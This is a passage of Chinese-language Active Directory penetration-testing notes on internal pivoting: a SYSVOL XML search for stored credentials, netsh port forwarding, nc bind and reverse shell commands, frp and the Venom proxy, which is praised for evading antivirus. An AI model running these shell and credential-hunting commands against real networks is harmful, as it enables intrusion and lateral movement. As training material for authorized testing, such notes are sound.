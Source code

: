   ```shell for /r \\dc/sysvol %i in (*.xml) do @echo %i```
**bloodhound**

### Exchange

> 这里暂时没有搭建，默默记下

## 0x03 内网通信

> 刚好看到这里的时候，正好也看到了[酒仙桥作战部队](https://mp.weixin.qq.com/s/6Q_i34ND-Epcu-71LHZRlA)的文章，一块整理一下

### 正反向代理

略

### 转发工具

> 转发的工具其实也有很多，感觉也不是一定都要全部用上。顺手的，免杀的，就是坠吼的
> 图搬运自酒仙桥作战部队文章

![image](https://github.com/chriskaliX/AD-Pentest-Notes/raw/master/imgs/transfer.png)

提及一下 socks 。socks目前分为2个版本，socks4和socks5。
socks4 支持 TELNET, FTP, HTTP等TCP协议
socks5支持TCP与UDP，并且支持安全认证方案
他们都不支持ICMP，也就是都不能拿来ping
**所以在使用socks4版本时候，nmap要加上`-sT`和`-Pn`** 来禁止使用 icmp协议

#### Netsh

> netsh是windows自带的，可以用来做端口转发的工具

`netsh interface portproxy add v4tov4 listenport=80 connectport=80 connectaddress=10.10.10.8  protocol=tcp`
在10.10.10.12（windows 10上开启）
![image](https://github.com/chriskaliX/AD-Pentest-Notes/raw/master/imgs/netsh1.png)
然后在10.10.10.10上访问10.10.10.12的80端口，看到
![image](https://github.com/chriskaliX/AD-Pentest-Notes/raw/master/imgs/netsh2.png)

#### Nc

| 类型 | A主机（攻击机）      | B主机（反弹机）               |                          |
| ---- | -------------------- | ----------------------------- | ------------------------ |
| 正向 | nc -nvv B主机IP 5555 | nc -l -p 5555 -t -e cmd.exe   | A主机正向连接B主机       |
| 反向 | nc -lvvp 5555        | nc -t -e cmd.exe A主机ip 5555 | A主机监听，B主机反向连接 |

#### frp

> 经典，老FRP了，FRP的功能十分丰富齐全，就不重复做搬运工了，可以直接看[文档](https://github.com/fatedier/frp/blob/v0.33.0/README_zh.md)

#### Venom

> 这个是在看酒仙桥作战部队的时候学习到的，[Venom地址](https://github.com/Dliv3/Venom)

这个项目看起来挺好的，Go写的，落地也没有被杀，估计用的人不是很多吧（我猜

这个工具主要是两个，admin跟agent，一个是主控一个代理，两个都支持监听和主动连接

##### 具体使用

在自己的VPS上开启监听，监听9999端口

![image](https://github.com/chriskaliX/AD-Pentest-Notes/raw/master/imgs/venom_1.png)
   ```